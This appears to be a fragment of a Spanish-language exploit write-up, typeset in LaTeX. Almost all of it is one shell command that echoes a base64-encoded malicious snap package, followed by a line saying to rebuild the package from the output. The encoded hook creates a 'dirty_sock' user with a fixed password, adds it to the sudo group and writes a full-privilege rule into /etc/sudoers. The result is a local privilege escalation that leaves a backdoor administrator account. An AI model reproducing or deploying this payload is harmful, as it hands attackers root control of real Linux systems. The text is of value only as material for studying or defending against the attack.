 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/}
\StringTok{/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh}
\StringTok{ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5}
\StringTok{TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo}
\StringTok{T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl}
\StringTok{Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt}
\StringTok{ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv}
\StringTok{ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n}
\StringTok{L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt}
\StringTok{b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe}
\StringTok{rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj}
\StringTok{rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA}
\StringTok{AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2}
\StringTok{XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5}
\StringTok{RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA}
\StringTok{AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw"} \KeywordTok{|} \FunctionTok{xargs} \KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{' '}
\end{Highlighting}
\end{Shaded}

copiamos el output y recreamos el paquete snap malicioso
\end{document}
